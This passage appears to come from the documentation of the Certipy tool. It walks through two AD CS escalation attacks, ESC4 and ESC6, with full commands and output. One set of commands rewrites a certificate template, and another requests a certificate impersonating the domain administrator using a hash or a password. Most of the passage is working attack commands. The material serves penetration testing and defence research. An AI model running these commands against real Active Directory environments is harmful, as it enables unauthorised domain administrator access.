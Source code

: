ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

By default, Certipy will overwrite the configuration to make it vulnerable to ESC1.

We can specify the `-save-old` parameter to save the old configuration, which is useful for restoring the configuration afterwards.

```bash
$ certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -save-old
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-alt` parameter.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC4' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 671
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```

If you want to restore the old configuration, you can specify the path to the saved configuration with the `-configuration` parameter.

```bash
$ certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -configuration ESC4.json
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

#### ESC6

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template's configuration.

The attack is the same as ESC1, except that you can choose any certificate template that permits client authentication.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 673
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```
